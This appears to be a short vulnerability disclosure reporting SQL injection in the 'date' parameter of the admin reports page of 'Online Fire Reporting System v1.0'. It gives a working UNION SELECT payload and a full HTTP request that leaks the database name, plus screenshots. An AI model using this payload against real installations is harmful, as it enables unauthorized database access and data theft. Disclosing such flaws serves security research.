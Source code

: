 # Online Fire Reporting System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15346/online-fire-reporting-system-phpoop-free-source-code.html

Vulnerability File: /ofrs/admin/?page=reports&date=

Vulnerability location: /ofrs/admin/?page=reports&date=, date

[+] Payload: /ofrs/admin/?page=reports&date=2022-05-27%27%20union%20select%201,2,3,database(),5,6,7,8,9,10--+ // Leak place ---> date

```sql
GET /ofrs/admin/?page=reports&date=2022-05-27%27%20union%20select%201,2,3,database(),5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170816699-225a705e-a75d-49a6-aa11-c92f9ccb0f1a.png)

![image](https://user-images.githubusercontent.com/54017627/170816660-55eafa66-cfb3-4ccf-934c-a5fedba6bff4.png)
